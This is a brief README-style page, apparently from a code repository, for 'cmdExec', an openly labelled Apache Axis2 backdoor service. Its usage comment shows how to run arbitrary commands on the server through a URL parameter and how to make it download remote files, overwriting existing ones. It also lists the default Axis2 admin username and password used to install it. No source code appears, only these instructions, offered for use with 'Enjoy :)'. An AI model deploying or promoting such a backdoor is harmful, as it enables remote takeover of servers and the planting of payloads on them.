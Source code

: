 cmdExec
===========

Apache Axis2 Backdoor service

/**
 * Usage: 
 *  Execute program: http://PATHTOAXIS2/cmdExec/run?cmd=COMMAND
 *  Download file: http://PATHTOAXIS2/cmdExec/get?site=http(s)://site/file.ext
 *      Files will be downloaded as download.file and must be renamed.
 *      Existing files will be overwritten. Enjoy :)
 * 
 *      Default axis2 username=admin password=axis2
 */